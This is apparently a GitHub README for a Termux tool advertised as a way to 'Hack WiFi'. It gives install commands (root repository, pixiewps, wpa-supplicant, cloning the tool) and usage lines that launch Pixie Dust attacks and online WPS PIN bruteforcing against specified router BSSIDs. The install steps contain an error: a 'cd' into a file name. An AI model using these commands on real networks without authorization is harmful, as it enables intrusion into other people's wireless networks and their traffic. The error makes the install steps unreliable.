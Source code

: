 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
 apt update && apt upgrade
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw
 git clone https://github.com/Naimulbari444/NHK-WIFI-HACK-WPA
 cd NHK_WIFI_HACK.py
 chmod +x NHK_WIFI_HACK.py
 sudo python NHK_WIFI_HACK.py --help
```

#### Example : `sudo python NHK_WIFI_HACK.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python NHK_WIFI_HACK.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python NHK_WIFI_HACK.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python NHK_WIFI_HACK.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
